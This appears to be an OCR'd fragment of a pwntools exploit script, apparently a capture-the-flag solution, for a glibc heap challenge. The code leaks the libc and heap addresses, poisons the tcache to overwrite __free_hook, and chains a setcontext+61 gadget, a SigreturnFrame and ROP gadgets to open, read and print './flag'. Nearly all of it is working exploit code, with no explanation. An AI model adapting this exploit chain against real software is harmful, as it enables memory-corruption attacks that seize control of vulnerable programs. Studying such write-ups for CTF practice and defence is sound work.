```
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x1ecbe0
libc.address = libc_base
success("libc_base = " + hex(libc_base))
 
# leak heap
show_chunk(0)
heap_base = u64(p.recvuntil((b'\x55', b'\x56'))[-6:].ljust(8, b'\x00')) & ~0xFFF
success("heap_base = " + hex(heap_base))
 
# tcache poisoning
free_hook = libc.sym['__free_hook']
edit_chunk(0, p64(free_hook))
add_chunk(8, 0x98, b'b' * 0x10)
add_chunk(9, 0x98, b'c' * 0x10)
 
# setcontext+61
payload_addr = libc.sym['__free_hook']
buf_addr = payload_addr + 0x70
frame_addr = heap_base + 0x1150
 
payload = b''
payload += p64(next(libc.search(asm('mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]'), executable=True)))
payload += p64(next(libc.search(asm('pop rdi; ret;'), executable=True)))
payload += p64(3)
payload += p64(next(libc.search(asm('pop rsi; ret;'), executable=True)))
payload += p64(buf_addr)
payload += p64(next(libc.search(asm('pop rdx; ret;'), executable=True)))
payload += p64(0x100)
payload += p64(libc.symbols['read'])
payload += p64(next(libc.search(asm('pop rdi; ret;'), executable=True)))
payload += p64(buf_addr)
payload += p64(libc.symbols['puts'])
payload = payload.ljust(0x70, b'\x00')
payload += b'./flag\x00'
 
frame = SigreturnFrame()
frame.rsp = libc.sym['__free_hook'] + 8
frame.rip = libc.symbols['open']
frame.rdi = buf_addr
frame.rsi = 0
frame = bytearray(bytes(frame))
frame[0x20:0x20 + 8] = p64(libc.sym['setcontext'] + 61)
frame = frame[:0xb8]
 
add_chunk(10, 0xf0, bytes(frame))           # frame
edit_chunk(9, payload)                      # __free_hook -> gadget
edit_chunk(8, b'a' * 8 + p64(frame_addr))   # frame_addr
 
# gdb.attach(p, "b __libc_free\nc")
# pause()
 
delete_chunk(8)
 
 
p.interactive()

```
